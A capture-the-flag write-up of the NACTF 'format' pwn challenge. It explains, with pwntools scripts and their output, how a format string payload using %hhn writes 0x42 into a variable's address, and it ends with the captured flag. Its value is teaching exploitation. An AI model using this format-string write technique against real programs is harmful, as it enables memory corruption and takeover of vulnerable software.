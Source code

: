 ## NACTF: format [pwn]
> description to be added later

#### Despite being an easy challenge, I was still satisfied to solve it since I wasn't confident with my format string skills. We were given the challenge binary and source code which makes it kinda easier to understand. Basically what we need to do is set the lower bits of the num variable to the value 0x42 (66). 

#### My first plan was to first find the offset at which our input can be located on the stack. Playing around gives us the offset of 6, but after placing the address of the num variable (which I got from gdb), we need to adjust. 

```python
#: 12 space padding
p.sendline("            %8$p{}".format(p64(0x404080)))
print(p.recv())
```
```
[x] Starting local process './format'
[+] Starting local process './format': pid 25945
Give me some text.

You typed             0x404080�@@!
Nope, try again

[*] Process './format' stopped with exit code 0 (pid 25945)
```

#### Alright we there we have it, the next step is then to write 0x42 into that address. We can achieve this by using the modifier `%hhn` which will write exactly a byte into num. Since the %hhn modifier will write how many bytes printf has written, we need a way to adjust the size of the payload: using the modifier to add spaces (%Nx, N being the number of spaces we want printf to write). It took quite some time to fiddle around, but after a few adjustments we got the results we need

```python
p.sendline("%60x      %8$hhn{}".format(p64(0x404080)))
print(p.recv())
```

#### To walk you through what the idea is here, `%60x` prints out 60 bytes of data and prints out another 6 bytes from the spaces, making the total number of bytes written by printf to 66 (0x42). It then writes this amount into the 0x404080 (the address of the num variable) and proceeds to write exactly one byte due to the %hhn modifier. Final exploit script used to get the flag is the one below:

```python
from pwn import *

#:
#p = process('./format')
p = remote('challenges.ctfd.io', 30266)
#gdb.attach(p.pid, 'break *check_num + 32')
print(p.recvuntil('.\n'))

#: 12 space padding
p.sendline("%60x      %8$hhn{}".format(p64(0x404080)))
print(p.recvuntil('}'))
```
```
$ python exploit.py
[x] Opening connection to challenges.ctfd.io on port 30266
[x] Opening connection to challenges.ctfd.io on port 30266: Trying 159.203.148.124
[+] Opening connection to challenges.ctfd.io on port 30266: Done
Give me some text.

You typed                                                     1aacf150      �@@!
Congrats! here's your flag
nactf{d0nt_pr1ntf_u54r_1nput_HoUaRUxuGq2lVSHM}
[*] Closed connection to challenges.ctfd.io port 30266
```